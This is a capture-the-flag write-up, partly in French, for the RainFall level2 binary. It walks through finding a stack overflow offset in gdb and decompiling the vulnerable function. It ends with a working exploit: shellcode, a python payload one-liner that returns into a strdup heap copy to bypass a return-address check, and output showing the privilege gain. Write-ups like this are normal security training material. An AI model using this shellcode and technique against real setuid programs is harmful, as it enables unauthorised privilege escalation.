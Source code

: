 First let's look at the type of the file

```console
level2@RainFall:~$ file level2 
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

with buffer overflow pattern generator we see that the offset is at `80` 

explication il faut trouver le nombre de byte pour overwrite EIP car il pointe sur la return adresse de p()  
En envoyant 80 on overwrite EBP mais pas EIP
```console
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7ea912f in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
ebp            0x41414141	0x41414141
eip            0xb7ea912f	0xb7ea912f
```

EIP se trouve toujours a EBP + 4 car il pointe sur la return adresse, donc si on relance le meme proceder avec 84 A
```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level2/level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
ebp            0x41414141	0x41414141
eip            0x41414141	0x41414141
```

41 etant l'hexa pour le A majuscule

---------------------------------------------------------------------------------

### How to get system("/bin/sh") in the libc

```console
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
--> \x60\xb0\xe6\xb7

(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
--> \xe0\xeb\xe5\xb7


(gdb) x/500s $esp
0xbffff915:	 "SHELL=/bin/bash"
0xbffff915 + 6 = 0xbffff91b
--> \x1b\xf9\xff\xbf
```

```
payload = A*76 + ????? x 4 + address of system() + return address for system() + address of "/bin/sh"
```

----------------------------------------------------------------------------------------



## Solution

Let's reverse the xecutable using gidra
```c
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)

{
  p();
  return;
}
```

We see that the program is protected by a canary: ` if ((unaff_retaddr & 0xb0000000) == 0xb0000000)`  
If the return address is in the stack (`0xb`), the program will exit

But we see that a copy of our buffer is made here: `strdup(local_50);`

What to do ??

We shall look at the allocated address on the heap of strdup with gdb in `eax` register

```
Address allocated by strdup (size 4)
0x0804a008 --> \x08\xa0\x04\x08
```

We shall use the buffer `char local_50 [76];` to stock our shellcode and then fill it trash (`'A'` characters) and then put the return address of the allocated copy done by strdup on the heap (`\x08\xa0\x04\x08`)

The canary will not caught our buffer overflow because the address is not on the stack (`0xb`)

```
Here is our shellcode (size 24)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```bash
(python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\x08\xa0\x04\x08")'; cat) | ./level2
```

```console
level2@RainFall:~$ (python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\x08\xa0\x04\x08")'; cat) | ./level2

1��Ph//shh/bin��PS��
                    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
```
